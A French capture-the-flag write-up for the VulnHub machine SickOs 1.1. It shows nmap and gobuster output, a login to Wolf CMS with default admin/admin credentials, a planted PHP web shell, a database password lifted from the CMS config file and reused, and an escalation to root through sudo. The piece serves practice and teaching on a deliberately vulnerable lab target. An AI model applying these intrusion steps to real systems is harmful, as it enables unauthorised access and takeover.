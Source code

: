 # Solution du CTF SickOs 1.1 de VulnHub

[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) est un CTF créé par [D4rk36](https://twitter.com/D4rk36) et téléchargeable sur VulnHub.

Comme vous le verrez par la suite il est simple mais requiert d'avoir les bonnes intuitions.

```
Nmap scan report for 192.168.57.5
Host is up (0.00065s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 08:00:27:89:4A:39 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On a un port 3128 annoncé comme un proxy `Squid` et si on s'y rend avec notre navigateur il rale en effet parce qu'on ne lui a pas donné d'URL à récupérer.

On configure un Firefox pour qu'il utilise ce proxy et quand on demande http://127.0.0.1 on obtient :

```html
<h1>
BLEHHH!!!
</h1>
```

On enchaine avec un `gobuster` en spécifiant le proxy dans les options :

```bash
$ gobuster -u http://127.0.0.1/ -p http://192.168.57.5:3128/ -w /opt/fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://127.0.0.1/
[+] Threads      : 10
[+] Wordlist     : /opt/fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt
[+] Status codes : 200,204,301,302,307,403
[+] Proxy        : http://192.168.57.5:3128/
[+] Timeout      : 10s
=====================================================
2023/02/10 15:48:40 Starting gobuster
=====================================================
/index (Status: 200)
/connect (Status: 200)
/robots (Status: 200)
/server-status (Status: 200)
=====================================================
2023/02/10 15:49:18 Finished
=====================================================
```

Dans le `robots.txt` qui ressort il est mention de `/wolfcms`.

Sur exploit-db une recherche sur `wolfcms` ne retourne rien de bien intéressant mais avec `wolf cms` en deux mots je trouve cette vulnérabilité d'upload arbitraire :

[Wolf CMS - Arbitrary File Upload / Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/38000)

On suit l'une des URLs indiquée dans l'exploit et on arrive sur la page de login du CMS :

http://127.0.0.1/wolfcms/?/admin/

Là les identifiants `admin` / `admin` sont acceptés et on peut intuitivement aller dans la gestion des fichiers, créer un `shell.php` et l'éditer pour y placer une backdoor.

On retrouve alors notre shell dans le dossier public :

http://127.0.0.1/wolfcms/public/shell.php?cmd=id

Le fichier de configuration du CMS qu'on peut lire une fois un terminal récupéré contient un mot de passe :

```php
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```

Ce mot de passe est accepté pour l'utilisateur `sickos` présent sur le système. Ce dernier permet de passer `root` sans difficultés :

```bash
www-data@SickOs:/var/www/wolfcms$ su sickos
Password:
sickos@SickOs:/var/www/wolfcms$ id
uid=1000(sickos) gid=1000(sickos) groups=1000(sickos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
sickos@SickOs:/var/www/wolfcms$ sudo -l
[sudo] password for sickos:
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:/var/www/wolfcms$ sudo su
root@SickOs:/var/www/wolfcms# id
uid=0(root) gid=0(root) groups=0(root)
root@SickOs:/var/www/wolfcms# cd /root
root@SickOs:~# ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:~# cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

Ce dessus, l'utilisateur fait partie du groupe `sudo`, on peut facilement passer root.

*Publié le 11 février 2023*
